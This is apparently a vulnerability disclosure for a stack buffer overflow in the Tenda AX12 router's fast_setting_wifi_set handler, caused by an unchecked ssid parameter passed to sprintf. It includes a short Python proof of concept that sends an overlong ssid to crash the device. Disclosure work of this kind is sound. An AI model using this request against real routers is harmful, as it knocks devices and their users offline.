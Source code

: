 # Tenda Router AX12 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AX12_V22.03.01.16. (The latest version is [AX12_V22.03.01.21](https://www.tenda.com.cn/download/detail-3237.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `sub_431CF0`.

In function `sub_431CF0` it reads user provided parameter `ssid` into `v2`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AX12/298/vlun.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
2023-02-26: Report to CVE;
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
